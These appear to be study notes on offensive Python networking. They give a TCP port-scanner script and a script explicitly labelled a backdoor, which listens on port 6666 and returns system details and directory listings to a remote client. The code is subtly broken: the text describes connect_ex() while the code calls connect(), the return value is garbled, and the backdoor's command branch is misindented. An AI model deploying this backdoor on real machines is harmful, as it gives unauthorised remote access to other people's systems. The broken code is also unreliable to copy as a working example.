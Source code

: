 * Instead of using `connect()` we'll use `connect_ex()`, which returns - if the operation succeeded.
* This script will use the full 3-way handshake.

```python
import socket

target = input('Enter the IP address to scan: ')
portrange = input('Enter the port range to scan (ex 5-200): ')

lowport = int(portrange.split('-')[0])
highport = int(portrange.split('-')[1])

print('Scanning host ', target, 'from port', lowport, 'to port', highport)

for port in range(lowport, highport):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  status = s.connect((target, port))
  if (status ==0):
    print('*** Port', port, ' - OPEN ***')
  else:
      print('*** Port', port, ' - Closed ***')
  s.close()
```

### Backdoor

The program simply binds itself to a NIC and a specific port (6666) and then waits for the client commands. Depending on the command received, it will return specific information to the client.

```python
import socket, platform, os

SRV_ADDR = ""
SRV_PORT = 6666

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((SRV_ADDR, SRV_PORT))
s.listen(1)
connection, address = s.accept()

while 1:
  try:
    data = connection.recv(1024)
  except:continue

    if(data.decode('utf-8') == '1'):
      tosend = platform.platform() + " " + platform.machine()
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '2'):
      data = connection.recv(1024)
      try:
        filelist = os.listdir(data.decode('utf-8'))
        tosend = ""
        for x in filelist:
          tosend += "," + x
      except:
        tosend += "Wrong path"
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '0'):
      connection.close()
    connection, address = s.accept()
```
